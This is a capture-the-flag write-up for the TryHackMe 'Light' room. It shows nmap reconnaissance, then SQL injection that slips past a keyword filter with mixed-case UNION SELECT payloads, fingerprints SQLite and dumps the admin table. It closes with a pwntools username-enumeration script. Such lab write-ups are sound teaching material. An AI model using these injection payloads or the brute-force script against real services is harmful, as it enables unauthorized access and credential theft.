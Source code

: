 # **Easy - Welcome to the Light database application!**
https://tryhackme.com/room/lightroom

I am working on a database application called Light! Would you like to try it out?
If so, the application is running on port 1337. You can connect to it using ``nc 10.10.22.91 1337``
You can use the username smokey in order to get started.

# Reconnaissance
Target: ``10.10.22.91``

We connect with
``nc 10.10.22.91 1337``
and enter username smokey gives us 

```
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```
Only SSH and the custom 1337 service
```
sudo nmap -p- 10.10.73.73
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-09 05:19 EDT
Nmap scan report for 10.10.73.73
Host is up (0.28s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
1337/tcp open  waste

Nmap done: 1 IP address (1 host up) scanned in 422.69 seconds
```

# Findings
- We try some obious admin credentails, no luck.
- We try the username and password with SSH, no luck.
- We hit it with a large username list, we get users like alice although no admin. included the script below.
- We hit with some SQLi and find there is some custom filtering, the most likely entry

```
Please enter your username: ``' or 1=1 --``
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
```
# Exploiting Findings

Find some weakness in the filtering we remove -- to find it by-passes filter but we get an error, 
```
Please enter your username: ' or 1=1 
Error: unrecognized token: "' LIMIT 30"

Please enter your username: ' or '1'='1' 
Error: unrecognized token: "'1'' LIMIT 30"
```
Ahh get around the sytax error with
```
Please enter your username: ' or '1'='1  
Password: tF8tj2o94WE4LKC
```

Now what SQLtype? more filtering to overcome 
```
Please enter your username: ' UNION SELECT @@version'
Ahh there is a word in there I don't like :( 
```
Union Select Looks to bypass filters, 

```
Please enter your username: SELECT                                                                                                                                                                                                                                     
Ahh there is a word in there I don't like :(                                                                                                                                                                                                                           
Please enter your username: UNION                                                                                                                                                                                                                                      
Ahh there is a word in there I don't like :(                                                                                                                                                                                                                           
Please enter your username: Select                                                                                                                                                                                                                                     
Username not found.                                                                                                                                                                                                                                                    
Please enter your username: Union                                                                                                                                                                                                                                      
Username not found.                                                                                                                                                                                                                                                    
Please enter your username:      
```

back to find SQL type

MySQL
```
Please enter your username: ' Union Select @@version'                                                                                                                                                                                                                  
Error: unrecognized token: "@"  
```

PostgreSQL
```
Please enter your username: ' Union Select version()'                                                                                                                                                                                                                  
Error: no such function: version      
```

SQLite - Bingo we get a hit
```
Please enter your username: ' Union Select sqlite_version()'                                                                                                                                              
Password: 3.31.1  
```

Find the table name
```
Please enter your username: ' UnIoN SeLeCt name FROM sqlite_master WHERE type='table
Password: admintable
```

Find the columns name
```
Please enter your username: ' UnIoN SeLeCt sql FROM sqlite_master WHERE name='admintable
Password: CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
```

What is the admin username?
```
Please enter your username: ' UnIoN SeLeCt username FROM admintable'
Password: ##########
```
What is the password to the username mentioned in question 1?
```
Please enter your username: ' UnIoN SeLeCt password FROM admintable where username = '##########
Password: ##########
```

What is the flag?
```
Please enter your username: ' UnIoN SeLeCt password FROM admintable'
Password: ##########
```
# Summary 
Nice room to show why custom frameworks for preventing SQLi is a bad idea, took me a bit to long to start with SQLi and was focused on Bruteforcing. Including bruteforcing script below as while it didn't work it's a good showcase for pwntools 


# failed exploration 

## Setting up pwntools for kali 
```
mkdir /home/kali/pwntools
python3 -m venv /home/kali/pwntools
home/kali/pwntools/bin/pip install pwntools pwntools\nsource /home/kali/pwntools/bin/activate

```
## bruteforce script
``nano lightbrute.py``

```
from pwn import *
import requests

# Target details
host = "10.10.22.91"
port = 1337
username_url = "https://raw.githubusercontent.com/jeanphorn/wordlist/refs/heads/master/usernames.txt"

# Download the username list
print("[*] Downloading username list...")
try:
    response = requests.get(username_url, timeout=10)
    response.raise_for_status()
    usernames = response.text.splitlines()
    print(f"[+] Loaded {len(usernames)} usernames.")
except requests.RequestException as e:
    print(f"[!] Failed to download usernames: {e}")
    exit(1)

# Start a single session
print(f"[*] Connecting to {host}:{port}...")
conn = remote(host, port, timeout=5)

# Read initial welcome message
welcome_message = conn.recvuntil(b"Please enter your username:").decode().strip()
print(f"[+] Received: {welcome_message}")

# Try each username in the same session
for username in usernames:
    print(f"[*] Trying username: {username}")
    
    conn.sendline(username)  # Send the username
    response = conn.recvuntil(b"Please enter your username:").decode().strip()  # Read the response

    print(f"[+] {username} → {response}")

    if "Username not found." not in response:
        print(f"\n🔥 Possible valid username found: {username} 🔥\n")
        break  # Stop once a valid username is found

# Close connection
conn.close()
print("[*] Username enumeration completed.")

```

``python3 lightbrute.py``










